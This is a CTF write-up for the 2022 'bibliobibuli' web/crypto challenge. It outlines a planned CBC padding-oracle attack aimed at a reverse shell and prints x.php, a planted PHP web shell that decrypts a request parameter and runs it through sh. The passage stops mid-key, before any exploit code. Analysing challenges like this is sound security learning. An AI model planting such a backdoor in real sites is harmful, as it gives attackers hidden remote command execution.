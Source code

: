 # Writeup

This is a writeup for the challenge bibliobibuli, a "web/crypto" challenge from the FE finals CTF, 2022.

The challenge is based around an endpoint which decrypts CBC ciphertexts, then executes the decrypted payload in a shell. The goal is to use a cbc padding oracle attack on the decryption endpoint to create an ECB decryption oracle, and use this to create a CBC ciphertext encoding a reverse shell payload to gain RCE on the server.

As this was a sourceless challenge, and the challenges were not accessible after the event, I couldn't re-verify my memory or get screenshots, so a few details might be off from how it was at the event.

# Initial impressions
The website is relatively simple, running at http://bibliobibuli.ctf, with a range of text documents you can browse. After clicking around i started trying a few random things to see if anything interesting happened. At one point i tried http://bibliobibuli.ctf/flag, and was greeted with the flag, and a loud firstblood message plays :)

Unfortunately this was apparently *not* the intended solution, and after reporting it our solve was eventually removed, and the challenge came back up again with http://bibliobibuli.ctf/flag not showing anything. 

Clicking around the website a bit more, we noticed that you could access a list of files on the server by going one level up from a document to the directory. Here we got a directory of all the viewable text files on the server, as well as a very suspicious file called `x.php`. 

```php
<?php
// Ninja-Pirates were here; this site is now NP-complete.

session_start();

if ($_SESSION["r"] && $_REQUEST["c"]) {
    $r = $_SESSION["r"];
    $c = $_REQUEST["c"];

    $k1 = substr($r, -64, 32);
    $k2 = substr($r, -32, 32);
    $i = "<<NinjaPirates>>";

    $p = openssl_decrypt($c, "AES-256-CBC", $k2, 0, $i);
    if (!$p) {
        http_response_code(500);
        die();
    }

    $d = array(array("pipe", "r"), array("pipe", "w"), array("pipe", "w"));
    $sh = proc_open("sh", $d, $io);
    fwrite($io[0], $p);
    fclose($io[0]);
    $p = stream_get_contents($io[1]);
    fclose($io[1]);
    fclose($io[2]);
    proc_close($sh);

    $c = openssl_encrypt($p, "AES-256-CBC", $k1, 0, $i);
    echo $c;

} else {
    $k = openssl_get_publickey(<<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQD4mlUi+rNbppdDCfiV46AznT3c
```